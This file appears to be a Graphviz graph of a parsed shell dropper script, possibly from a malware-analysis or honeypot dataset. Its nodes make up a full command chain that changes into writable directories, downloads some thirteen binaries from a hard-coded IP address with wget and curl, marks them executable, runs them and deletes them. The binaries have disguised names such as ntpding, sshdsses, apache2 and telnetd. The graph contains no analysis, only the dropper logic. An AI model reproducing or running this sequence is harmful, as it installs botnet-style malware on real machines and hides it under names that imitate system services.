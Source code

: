 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://185.7.78.25/ntpding "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.7.78.25/ntpding "];
12 -> 14 [label=";,"];
14 [label="chmod +x ntpding "];
14 -> 16 [label=";,"];
16 [label="./ntpding "];
16 -> 18 [label=";,"];
18 [label="rm -rf ntpding "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://185.7.78.25/sshdsses "];
30 -> 32 [label=";,"];
32 [label="curl -O http://185.7.78.25/sshdsses "];
32 -> 34 [label=";,"];
34 [label="chmod +x sshdsses "];
34 -> 36 [label=";,"];
36 [label="./sshdsses "];
36 -> 38 [label=";,"];
38 [label="rm -rf sshdsses "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://185.7.78.25/opensshlol "];
50 -> 52 [label=";,"];
52 [label="curl -O http://185.7.78.25/opensshlol "];
52 -> 54 [label=";,"];
54 [label="chmod +x opensshlol "];
54 -> 56 [label=";,"];
56 [label="./opensshlol "];
56 -> 58 [label=";,"];
58 [label="rm -rf opensshlol "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://185.7.78.25/bashering "];
70 -> 72 [label=";,"];
72 [label="curl -O http://185.7.78.25/bashering "];
72 -> 74 [label=";,"];
74 [label="chmod +x bashering "];
74 -> 76 [label=";,"];
76 [label="./bashering "];
76 -> 78 [label=";,"];
78 [label="rm -rf bashering "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://185.7.78.25/tftpoinf "];
90 -> 92 [label=";,"];
92 [label="curl -O http://185.7.78.25/tftpoinf "];
92 -> 94 [label=";,"];
94 [label="chmod +x tftpoinf "];
94 -> 96 [label=";,"];
96 [label="./tftpoinf "];
96 -> 98 [label=";,"];
98 [label="rm -rf tftpoinf "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://185.7.78.25/wgetting "];
110 -> 112 [label=";,"];
112 [label="curl -O http://185.7.78.25/wgetting "];
112 -> 114 [label=";,"];
114 [label="chmod +x wgetting "];
114 -> 116 [label=";,"];
116 [label="./wgetting "];
116 -> 118 [label=";,"];
118 [label="rm -rf wgetting "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://185.7.78.25/cronnor "];
130 -> 132 [label=";,"];
132 [label="curl -O http://185.7.78.25/cronnor "];
132 -> 134 [label=";,"];
134 [label="chmod +x cronnor "];
134 -> 136 [label=";,"];
136 [label="./cronnor "];
136 -> 138 [label=";,"];
138 [label="rm -rf cronnor "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://185.7.78.25/ftppingging "];
150 -> 152 [label=";,"];
152 [label="curl -O http://185.7.78.25/ftppingging "];
152 -> 154 [label=";,"];
154 [label="chmod +x ftppingging "];
154 -> 156 [label=";,"];
156 [label="./ftppingging "];
156 -> 158 [label=";,"];
158 [label="rm -rf ftppingging "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://185.7.78.25/pftping "];
170 -> 172 [label=";,"];
172 [label="curl -O http://185.7.78.25/pftping "];
172 -> 174 [label=";,"];
174 [label="chmod +x pftping "];
174 -> 176 [label=";,"];
176 [label="./pftping "];
176 -> 178 [label=";,"];
178 [label="rm -rf pftping "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://185.7.78.25/shing "];
190 -> 192 [label=";,"];
192 [label="curl -O http://185.7.78.25/shing "];
192 -> 194 [label=";,"];
194 [label="chmod +x shing "];
194 -> 196 [label=";,"];
196 [label="./shing "];
196 -> 198 [label=";,"];
198 [label="rm -rf shing "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://185.7.78.25/nut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://185.7.78.25/nut "];
212 -> 214 [label=";,"];
214 [label="chmod +x nut "];
214 -> 216 [label=";,"];
216 [label="./nut "];
216 -> 218 [label=";,"];
218 [label="rm -rf nut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://185.7.78.25/apache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://185.7.78.25/apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x apache2 "];
234 -> 236 [label=";,"];
236 [label="./apache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf apache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://185.7.78.25/telnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://185.7.78.25/telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x telnetd "];
254 -> 256 [label=";,"];
256 [label="./telnetd "];
256 -> 257 [label=";,"];
}
